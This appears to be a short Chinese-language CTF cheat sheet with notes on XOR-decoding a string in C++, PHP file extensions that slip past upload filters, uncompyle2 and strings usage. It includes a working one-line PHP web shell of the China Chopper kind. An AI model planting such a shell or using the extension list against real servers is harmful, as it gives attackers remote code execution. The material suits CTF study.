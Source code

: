 ##  将整数强制拆分为 string
```cpp
#include<cstdio>
#include<cstring>
#include<string>
using namespace std;
int main(){
	long long v7=28537194573619560;
	char *p=(char *)&v7;//chr指针
	char str[30];
	strcpy(str,":\"AL_RT^L*.?+6/46");
	for(int i=0;i<19;i++){
		str[i]=p[i%7]^str[i];
		printf("%c",str[i]);
	}
	return 0;
}
```
-----

## php 文件别名
php2, php3, php4, php5, phps, pht, phtm, phtml
## 一句话木马
```php
<?php @eval($_POST['chopper']);?>
```
## uncompyle2 用法
```bash
py -2 uncompyle2 -o as.py as.pyc
```
## Strings 用法
`strings brave | grep -i key #-i 忽略大小写`
#
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTc3MTU0Nzc3MiwtMjAxMTE3MDg4MSwxNj
A2Mjg0MjUsLTE0MTA2ODY2MzcsMzM1NTgwODA4XX0=
-->
